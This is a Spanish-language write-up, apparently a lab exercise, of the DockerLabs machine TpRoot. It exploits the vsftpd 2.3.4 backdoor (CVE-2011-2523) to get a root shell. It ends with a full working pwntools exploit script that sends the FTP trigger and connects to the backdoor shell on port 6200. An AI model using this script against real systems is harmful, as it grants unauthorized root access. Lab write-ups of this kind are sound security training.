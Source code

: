 ```yaml
---
layout: post
title: "TpRoot - Dockerlabs - Linux - Fácil"
date: 2025-08-24
img: /assets/img/tproot/banner.png
---
```

TProot es una máquina Linux de nivel fácil en DockerLabs que nos permite practicar enumeración básica y explotación de vulnerabilidades conocidas.



**Enumeración**

Comenzamos con un reconocimiento de la máquina objetivo.

![img1](/secnotes/assets/img/tproot/1.png)

![img2](/secnotes/assets/img/tproot/2.png) 

Con la herramienta **searchsploit** veremos si existe alguna vulnerabilidad sobre el servicio _vsdtpd 2.3.4_

![img3](/secnotes/assets/img/tproot/3.png)
 
Encontramos un script de ejecución de comandos a través de una puerta trasera (backdoor). Esto se ejecuta conectándonos a un servicio aparentemente legitimo (FTP, HTTP, etc), enviamos un trigger (Usuario especial, header, token, etc) el servicio abre un puerto oculto o devuelve una shell, y al conectarnos a ese puerto podemos ejecutar comandos.

Esta corresponde a la vulnerabilidad CVE-2011-2523. En Exploit database encontramos un script para comprometer este servicio.

![img4](/secnotes/assets/img/tproot/4.png) 

Para ejecutarlo vamos a crear un entorno aislado con Python3 

![img5](/secnotes/assets/img/tproot/5.png) 

Esto sirve para poder instalar paquetes independientes en el sistema sin comprometer las librerías de nuestro Kali. Es útil para trabajar con distintas versiones de las librerías.

Ejecutamos el script que descargamos pero nos da un error. Indica que no tenemos la librería de telnet en nuestro sistema, esto pasó por que la versión actual de Python (3.13.5) elimino estas librerias que traía por defecto. 
 
![img6](/secnotes/assets/img/tproot/6.png) 

![img7](/secnotes/assets/img/tproot/7.png) 

![img8](/secnotes/assets/img/tproot/8.png)

con el siguiente comando podemos ejecutar directamente la versión 3.11.13 de Python desde un contenedor de docker en nuestro entorno aislado

`docker run -it --rm -v "$PWD":/work -w /work python:3.11 bash
python3 –version`

![img9](/secnotes/assets/img/tproot/9.png)
 
Al ejecutar el script obtendremos automaticamente una shell como usuario root en la máquina víctima.

![img10](/secnotes/assets/img/tproot/10.png)

![img11](/secnotes/assets/img/tproot/11.png)
 

**Opcion 2:**

Podemos modificar el script para reemplazar telnet por pwntools, así el script funcionará con las versiones actuales de python 

`#!/usr/bin/python3
# Exploit Title: vsftpd 2.3.4 - Backdoor Command Execution (pwntools)
# CVE : CVE-2011-2523
# Original author: HerculesRD
# Ported to pwntools for Python 3.13+

from pwn import *
import argparse
from signal import signal, SIGINT
from sys import exit

def handler(signal_received, frame):
    print('   [+] Exiting...')
    exit(0)

signal(SIGINT, handler)

parser = argparse.ArgumentParser()
parser.add_argument("host", help="Target IP address", type=str)
args = parser.parse_args()

host = args.host
portFTP = 21

user = b"USER nergal:)"
password = b"PASS pass"

# --- FTP trigger ---
ftp = remote(host, portFTP, timeout=5.0)
banner = ftp.recvline(timeout=5.0)
print(f"[+] Banner: {banner.strip().decode(errors='ignore')}")
ftp.sendline(user)
ftp.recvuntil(b"pass", timeout=3.0)  # más laxo que "password."
ftp.sendline(password)
ftp.close()
# --- Backdoor shell ---
try:
    shell = remote(host, 6200, timeout=5.0)
    print("[+] Success, shell opened")
    print("[i] Type 'exit' to quit")
    shell.interactive()
    shell.close()
except Exception as e:
    print(f"[-] Could not connect to backdoor: {e}")`


![img12](/secnotes/assets/img/tproot/12.png) 


